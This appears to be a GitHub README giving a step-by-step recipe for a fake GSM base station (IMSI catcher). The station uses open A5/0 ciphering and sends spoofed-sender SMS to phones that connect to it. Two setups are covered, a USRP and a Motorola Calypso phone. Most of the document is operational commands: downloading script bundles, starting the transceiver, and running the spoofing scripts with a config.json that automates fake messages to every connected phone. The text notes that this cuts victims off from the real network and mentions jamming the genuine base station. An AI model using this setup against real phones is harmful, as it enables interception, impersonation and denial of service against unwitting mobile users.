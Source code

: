 # GSM3_IMSICATCHER_HALFMITM_FAKE-SMS-SENDER
# GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITHOUT-PHYSICAL-MS
* [motorola](https://www.youtube.com/watch?v=ZKa86zAWmQY&pp=ygURZ3NtIHNuaWZmaW5nIDI5YzM%3D) documentation
* [spoofing](https://github.com/godfuzz3r/osmo-nitb-scripts/tree/master)
* [phddays](https://sudonull.com/post/97315-MiTM-Mobile-contest-how-they-broke-mobile-communications-at-PHDays-V-Positive-Technologies-blog)
* [script](https://lucasteske.medium.com/creating-your-own-gsm-network-with-limesdr-1935bac257f4)
  
# Half MITM = Fake BTS only
<p align="center">
  <img width="600" height="400" src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/2G.jpg">
</p>

# Why it is possible ?
* Fake base station with open ciphering named A5/0, and the  network could be GSM(sms, call), and GPRS, EDGE

# Attack limitations and advantages 
* local attack but could be targeting (to find local victim)
* victim couldn't be reached on the real network (indeed call and sms)
* could be detectable with rooted phone and application like imsi-catcher detector, snoopsnitch because of open network

# Devices  
* USRP
* motorola phone (aka calypso phone on google)
* LimeSDR
  
# Pratices
* Install DragonOS 29 or 30
* Create fake bts with open ciphering (A5/0)
* Modify the config.json to send sms with fake sms sender

# Solutions :
* Solution 1 using USRP  
(more stable and no need synchronization of existing BTS so if we jam the existing BTS the half mitm still exists)
```
wget https://raw.githubusercontent.com/SitrakaResearchAndPOC/nitb-script-all/main/osmo-nitb-scripts.zip
```
```
unzip osmo-nitb-scripts.zip
```
```
cd osmo-nitb-scripts
```
Database is at : /var/lib/osmocom/hlr.sqlite3  
Installing all config  
```
bash install_services.sh
```
Running the transceiver
```
osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```
Running main_uhd associate with configs/openbsc.cfg  
Compare the two configs openbsc_spoof.cfg  and openbsc.cfg  to find the difference.  
Use command diff to compare two files
Results : With openbsc.cfg, not possible to send call and sms (just fake sms sender)  
ctrl+shift+T  
```
cd osmo-nitb-scripts
```
Compare the two scripts main_uhd_spoof.py and main_uhd.py to find the difference.  
Use command diff to compare two files
Results : main_uhd_spoof.py uses openbsc_spoof.cfg  and main_uhd.py  uses openbsc.cfg
```
python3 main_uhd.py
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   

  
Configure config.json and test the ussd on it  
```
python3 interact.py
```

For automated fake sms sender in each connection on the BTS
Relaunch all setup but use this command instead of python3 main_uhd.py
```
python3 main_uhd.py -u -c config.json
```




* Solution 2 : using one motorola phone  
(Not so stable and  need synchronization of existing BTS by finding arfcn of synchronization so if we jam the existing BTS the half mitm doesn't exist anymore)

Hardware setup 1 : Need battery and not programmable with arduino  

[serial_cable](https://osmocom.org/projects/baseband/wiki/Serial_Cable)    [smartspate](https://www.smartspate.com/how-to-create-2g-network-at-your-own-home/)   [sudonull](https://sudonull.com/post/69473-Launching-a-GSM-network-at-home-Pentestit-Blog)
<p align="center">
  <img src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/usb_motorola.jpg">
</p>

<p align="center">
  <img width="600" height="400" src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/usb_cable_final.png">
</p>


Hardware setup 2 : No need battery and programmable with arduino  
<p align="center">
  <img src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/USB_TTL.jpg">
</p>


Command you need : 
```
dmesg | grep ttyUSB*
```

```
wget https://raw.githubusercontent.com/SitrakaResearchAndPOC/nitb-script-all/main/osmo-nitb-scripts-calypsobts.zip
```
```
unzip osmo-nitb-scripts-calypsobts.zip 
```
```
cd osmo-nitb-scripts-calypsobts
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Installing network signal guru on your android phone  
And finding the arfcn that this one is connect  
Let's name this arfcn as 975  
Configure arfcn at service/osmotrx.lms as 975
```
gedit service/osmotrx.lms
```
Save the configuration
```
bash install_services.sh 
```
```
bash trx.sh
```
Click button power of motorola phone  
Tape ctrl+shift+T
```
cd osmo-nitb-scripts-calypsobts
```
Database at : /usr/src/CalypsoBTS/hlr.sqlite3
Running main_uhd associate with configs/openbsc.cfg  
Compare the two configs openbsc_spoof.cfg  and openbsc.cfg  to find the difference.  
Use command diff to compare two files
Results : With openbsc.cfg, not possible to send call and sms (just fake sms sender)  

  
Compare the two scripts main_spoof.py and main.py to find the difference.  
Use command diff to compare two files
Results : main_spoof.py uses openbsc_spoof.cfg  and main.py  uses openbsc.cfg
```
python3 main.py
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   

  
Configure config.json and test the ussd on it  
```
python3 interact.py
```

For automated fake sms sender in each connection on the BTS
Relaunch all setup but use this command instead of python3 main.py
```
python3 main.py -u -c config.json
```
